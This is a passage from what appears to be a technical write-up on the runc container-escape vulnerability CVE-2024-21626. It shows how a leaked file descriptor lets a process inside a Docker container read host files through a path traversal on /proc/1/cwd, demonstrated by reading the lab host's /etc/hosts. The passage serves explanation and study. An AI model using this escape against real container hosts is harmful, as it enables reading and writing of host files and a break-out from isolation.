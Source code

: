 The reason why opening the log file at first, then Go runtime calling epoll_create(2) and pipe2(2) is related to the implementation of Go runtime, it's a long story again.



Reference: https://nitroc.org/en/posts/cve-2024-21626-illustrated/#why-the-file-descriptor-of-sysfscgroup-is-7



Exploitation


Since we now have a reference to the host file system, we can actually read any of the files on the host system by leveraging the leaked file handle to the /sys/fs/cgroup directory.



Reading arbitrary files


To read any arbitrary file, we just have to use enough ../ sequences to reach to the directory and file of our interesting and we would be able to read/write to that file.



Let's try this by reading the /etc/hosts file of the host machine:
```
root@90c4baf8b91f:.# cat /etc/hosts
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      90c4baf8b91f
root@90c4baf8b91f:.# 
root@90c4baf8b91f:.# 
root@90c4baf8b91f:.# cat /proc/1/cwd/../../../../../../../../etc/hosts
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
root@90c4baf8b91f:.# 
root@90c4baf8b91f:.# 
```



To confirm that we read the /etc/hosts file for the underlying host machine, we can check the contents for the file on the host system directly (this is our Kali machine, not the docker container):
```
kali@kali:~$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

kali@kali:~$ 
```
